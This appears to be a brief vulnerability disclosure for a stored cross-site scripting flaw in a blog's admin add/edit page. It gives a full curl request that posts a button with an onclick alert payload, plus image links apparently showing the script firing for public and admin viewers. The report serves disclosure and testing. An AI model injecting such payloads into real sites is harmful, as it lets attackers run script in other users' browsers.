

# name 
Blog Stored xss

# path
blog add edit
http://127.0.0.1:9999/admin/index
befor login

# xss Payload

```
curl 'http://127.0.0.1:9999/admin/content/C' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'Cookie: PHPSESSID=bc4ad1f19e8790aeb682f3614a9229ad' \
  -H 'Origin: http://127.0.0.1:9999' \
  -H 'Referer: http://127.0.0.1:9999/admin/form/addpage' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36' \
  -H 'X-Requested-With: com.asiainfo.app' \
  -H 'sec-ch-ua: "Chromium";v="127", "Not)A;Brand";v="99"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Linux"' \
  --data-raw 'title=Test&content=Test%0A%0A%3Cbutton+onclick%3Dalert(333)%3E%0A111%0A%3C%2Fbutton%3E%0A%0A%60%60%60%0A%3Cbutton+onclick%3Dalert(333)%3E%0A111%0A%3C%2Fbutton%3E%0A%60%60%60&permid=666&uid=f473b258-96be-4dcc-83ec-82b3e610c672&cid='
```

# Effect
Public Blog View
[](./img/2.png)
alert
[](./img/5.png)
[](./img/6.png)

admin view 
[](./img/3.png)
alert
[](./img/4.png)


